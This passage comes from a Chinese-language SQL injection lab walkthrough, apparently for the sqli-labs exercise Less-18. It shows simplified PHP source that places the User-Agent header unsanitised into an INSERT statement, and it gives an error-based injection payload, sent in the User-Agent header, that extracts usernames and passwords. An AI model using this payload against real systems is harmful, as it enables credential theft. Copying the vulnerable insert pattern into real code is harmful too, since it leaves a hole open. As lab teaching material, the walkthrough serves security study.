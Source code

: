 `uname`被过滤了，只能考虑update这里注入，使用报错注入即可。

#### 3.2.18 Less-18

```php
$uagent = $_SERVER['HTTP_USER_AGENT'];
$IP = $_SERVER['REMOTE_ADDR'];
//uname和passwd被过滤
$uname = check_input($_POST['uname']);
$passwd = check_input($_POST['passwd']);

$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";

if true
    $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
	echo 'Your User Agent is: ' .$uagent;
	print_r(mysql_error());	
else 
    print_r(mysql_error());
```

这里`uname`和`passwd`被过滤了，因此只能在insert语句注入。

- `$_SERVER['HTTP_CLIENT_IP']` 客户端可以伪造。
- `$_SERVER['HTTP_X_FORWARDED_FOR']`，客户端可以伪造。
- `$_SERVER['REMOTE_ADDR']`，客户端不能伪造。

所以这里只能在`User-Agent`注入。

```sql
User-Agent: 1'and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1
```

![image-20250310224830354](sql注入/image-20250310224830354.png)
